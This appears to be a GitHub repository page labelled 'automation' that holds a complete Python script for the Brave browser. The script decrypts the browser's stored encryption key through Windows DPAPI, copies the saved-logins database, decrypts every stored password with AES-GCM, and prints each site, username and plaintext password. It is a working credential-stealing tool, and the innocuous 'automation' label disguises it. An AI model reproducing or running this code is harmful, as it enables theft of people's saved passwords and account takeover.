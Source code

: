# automation
basic shit i use for automation and just wanted to open-source them.

import os
import json
import base64
import sqlite3
import shutil
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.backends import default_backend
import win32crypt

def get_encryption_key():
    local_state_path = os.path.join(os.environ["USERPROFILE"], "AppData", "Local", "BraveSoftware", "Brave-Browser", "User Data", "Local State")
    with open(local_state_path, "r", encoding="utf-8") as file:
        local_state = json.loads(file.read())
    encryption_key = base64.b64decode(local_state["os_crypt"]["encrypted_key"])
    encryption_key = encryption_key[5:]  # Remove DPAPI prefix
    return win32crypt.CryptUnprotectData(encryption_key, None, None, None, 0)[1]

def decrypt_password(encrypted_password, key):
    nonce = encrypted_password[3:15]
    ciphertext = encrypted_password[15:-16]
    tag = encrypted_password[-16:]
    cipher = Cipher(
        algorithms.AES(key),
        modes.GCM(nonce, tag),
        backend=default_backend()
    )
    decryptor = cipher.decryptor()
    return decryptor.update(ciphertext) + decryptor.finalize()

def main():
    key = get_encryption_key()
    db_path = os.path.join(os.environ["USERPROFILE"], "AppData", "Local", "BraveSoftware", "Brave-Browser", "User Data", "Default", "Login Data")
    shutil.copy2(db_path, "Login Data Backup")  # Create a backup of the database
    conn = sqlite3.connect("Login Data Backup")
    cursor = conn.cursor()
    cursor.execute("SELECT origin_url, username_value, password_value FROM logins")
    for row in cursor.fetchall():
        url = row[0]
        username = row[1]
        encrypted_password = row[2]
        decrypted_password = decrypt_password(encrypted_password, key)
        print(f"URL: {url}\nUsername: {username}\nPassword: {decrypted_password.decode('utf-8')}\n")
    cursor.close()
    conn.close()

if __name__ == "__main__":
    main()
